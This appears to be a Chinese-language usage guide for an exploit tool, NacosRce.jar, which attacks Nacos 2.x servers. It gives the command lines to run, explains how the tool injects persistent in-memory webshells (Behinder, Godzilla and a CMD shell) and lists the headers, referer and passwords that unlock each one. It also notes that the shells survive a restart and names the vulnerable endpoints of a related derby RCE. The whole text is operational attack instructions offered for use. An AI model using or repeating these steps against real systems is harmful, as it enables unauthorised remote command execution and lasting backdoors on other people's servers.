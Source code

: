 ![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiauRx7CocqfL7tSOPPwzvCOQlCicwmaTWM009ibP6fiaEsGp7b9BrlGV3VQ/640?wx_fmt=jpeg&from=appmsg "")  
  
直接使用webshell管理工具进行链接即可  
  
自动注入内存马并执行命令 java -jar NacosRce.jar Url Jraft端口 "Command"  
  
java -jar NacosRce.jar http://192.168.90.1:8848/nacos  7848 "whoami"  
只注入内存马  
  
java -jar NacosRce.jar http://192.168.90.1:8848/nacos 7848 memshell  
  
  
内存马说明：  
一、冰蝎内存马：  
1、需要设置请求头x-client-data:rebeyond  
2、设置Referer:https://www.google.com/  
3、路径随意  
4、密码rebeyond  
二、哥斯拉内存马：  
1、需要设置请求头x-client-data:godzilla  
2、设置Referer:https://www.google.com/  
3、路径随意  
4、密码是pass 和 key  
  
三、CMD内存马：  
1、需要设置请求头x-client-data:cmd  
2、设置Referer:https://www.google.com/  
3、请求头cmd:要执行的命令  
v0.5版本实现了：  
1、不出网漏洞利用  
2、可多次发起漏洞利用  
3、同时注入冰蝎/哥斯拉/CMD内存马  
4、内存马对nacos多版本进行了兼容  
  
tips:  
1、请用jdk1.8  
2、适用于 Nacos 2.x <= 2.2.2  
3、非集群的也能打哦  
4、此内存马重启nacos依然存活  
  
关于Windows  
如用下面的方式执行，注入内存马时会生成临时文件 C:\Windows\Temp\nacos_data_temp 和 C:\Windows\Temp\nacos_data_temp.class 文件  
  
java -jar NacosRce.jar http://192.168.90.1:8848  7848 "whoami" windows  
  
如果没有在最后加 windows，临时文件会在 /tmp/nacos_data_temp /tmp/nacos_data_temp.class，所以权限足够的话，不指定windows也能打成功  
windows 没打成功也许是因为没权限操作C盘或其他原因  
## 9. Nacos RCE  
  
这个漏洞涉及两个路径，其中derby其实就是CVE-2021-29441  
  
/nacos/v1/cs/ops/data/removal  
/nacos/v1/cs/ops/derby  
  
测试版本：nacos1.4.0（2.3.2也成功），默认状态  
  